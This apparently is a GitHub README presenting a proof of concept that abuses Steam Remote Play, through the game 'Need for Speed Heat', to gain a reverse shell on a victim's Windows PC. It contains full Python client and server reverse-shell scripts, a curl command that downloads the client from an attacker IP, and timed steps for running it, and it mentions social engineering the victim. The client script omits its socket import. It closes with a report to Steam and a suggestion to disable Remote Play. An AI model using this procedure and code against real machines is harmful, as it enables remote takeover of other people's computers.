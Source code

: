 # Steam Remote Play - Reverse Shell

The vulnerability I'm exploring relates to Steam Remote Play. In this particular case, I used the same account, "chibataglini," which is connected to two different machines: the victim's Windows machine and the attacker's Linux machine. For the purposes of this Proof of Concept (POC), I'm conducting it locally for simplicity. The attack vector is the game "Need for Speed Heat." I tested it with other games, but the same effect couldn't be achieved. Hence, I'm using "Need for Speed Heat" as the attack vector. Therefore, it's essential for "Need for Speed Heat" to be downloaded on both machines; otherwise, the attack won't be possible. In a real-world scenario, social engineering would be required to convince the victim to download the game, but that's not within the scope of this POC.

**Prerequisites:**

**Victim's Computer**:
- Steam account connected with the attacker's account (in this test, it's "chibataglini").
- "Need for Speed Heat" game downloaded.
- Steam application running.
- Python installed (used for the reverse shell). Metasploit can also be used, but it may be detected by antivirus software.

**Attacker's Machine**:
- Steam account connected with the attacker's account (in this test, it's "chibataglini").
- "Need for Speed Heat" game downloaded.
- Python installed.

**Proof of Concept (POC)**

We will start by creating Python server and client scripts to perform the reverse shell. I've attached these scripts; be sure to change the "SERVER_HOST" variable to the attacker's machine's IP. Save these two scripts in a Linux directory.
Code script reverse shell: file **client.py**

```python
import subprocess

SERVER_HOST = "xxx.xxx.xx.xx"
SERVER_PORT = 8080
BUFFER_SIZE = 1024

s = socket.socket()
s.connect((SERVER_HOST, SERVER_PORT))

message = s.recv(BUFFER_SIZE).decode()
print("Server:", message)

while True:
    command = s.recv(BUFFER_SIZE).decode()
    if command.lower() == "exit":
        break
    output = subprocess.getoutput(command)
    s.send(output.encode())
s.close()
```

Open a terminal in the directory where these two files are saved, and run the following command to start a server:

```shell
python3 -m http.server 80
```

This is important because we'll download the "client.py" script on the victim's machine for the reverse shell. Open a new terminal to run our reverse shell server:

```shell
python3 servidor.py
```
file **servidor.py**:
```python
import socket
SERVER_HOST = "0.0.0.0"
SERVER_PORT = 8080
BUFFER_SIZE = 1024
s = socket.socket()


s.bind((SERVER_HOST, SERVER_PORT))

s.listen(5)
print(f"Listening as {SERVER_HOST}:{SERVER_PORT} ...")

client_socket, client_address = s.accept()
print(f"{client_address[0]}:{client_address[1]} Conectado!")

message = "Conexao estabelecida com sucesso!".encode()
client_socket.send(message)

while True:
    command = input("Digite um comando: ")
    client_socket.send(command.encode())
    if command.lower() == "exit":
        break
    results = client_socket.recv(BUFFER_SIZE).decode()
    print(results)
client_socket.close()
s.close()
```

1. Open the Steam application on the attacker's machine.
2. Open Steam on the Linux machine.
3. Navigate to the "Need for Speed" game.
4. Now comes the critical part where the vulnerability becomes apparent. While the game is loading on the victim's system, we have a small window of time to execute our attack.
5. a-)  Click on the "Connect"
![Connect](img/connect.png)

If he already connects to the victim's machine, do step 6. If he freezes, do step 12. If he logs in and out, do step 6)
6. Click on the "Stream" button (Since I'm Brazilian and use the translated version of Steam, I'm not sure of the exact name of the button in English, but I demonstrate it in the video. I apologize for this detail.).

7. Once the game streaming begins, access to the Windows machine is possible.
   
8. If the Windows machine appears, take advantage of this brief window to open PowerShell (you have approximately 3 to 10 seconds to do this). Use the shortcut "Windows+R," type "powershell.exe," and press Enter.
   
9. With PowerShell open, download the reverse shell file from the attacker's machine using the following command:

```shell
curl http://attacker_ip/client.py -o client.py
```

10. Use the Python command to execute the "client.py" file to perform the reverse shell.

```shell
python3 client.py
```

11. Now, return to the Linux machine, where the terminal with the reverse shell server running will give you access to the Windows machine.
    
![reverse shell](img/poc_shellreverse.png)

12. **Note:** If the connection is interrupted, it's likely because the game has finished loading on the victim's machine. In this case, you won't be able to run commands on the Windows machine anymore. To continue, stop the game on the Linux machine and repeat steps 5 and 6 to resume from where you left off. The attached video demonstrates this process.
![reverse shell](img/stop.png)

## Video POC: Video showing how to hack the victim's machine.

![reverse shell](img/POC_shellReverse.gif)

## Response from the Steam

However, after reporting this vulnerability, the response from the Steam team was as follows:

![reverse shell](img/report_steam.png)

Therefore, I recommend disabling the Steam Remote Play feature if you do not use it.
I will continue studying this vulnerability for more general cases. As soon as I have new updates, I will post them here.
